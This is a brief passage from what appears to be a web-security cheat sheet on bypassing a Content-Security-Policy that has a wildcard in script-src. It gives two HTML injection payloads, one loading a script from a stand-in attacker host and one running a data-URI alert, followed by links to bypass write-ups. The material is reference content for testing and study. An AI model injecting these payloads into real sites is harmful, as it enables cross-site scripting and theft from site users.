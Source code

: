 This is a misconfigured CSP policy due to usage of a wildcard in `script-src`. Possible payloads:

```html
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

# References

- [Content-Security-Policy (CSP) Bypass Techniques](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)
- [Deteact: Content Security Policy Bypass](https://blog.deteact.com/csp-bypass/)
- [ZN2018: CSP by Ivan Chalykin](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Content%20Security%20Policy/materials/zn2018-csp-bypass.pdf)
- [Write up: CSP bypass by base tag injection](https://ctftime.org/writeup/11452)

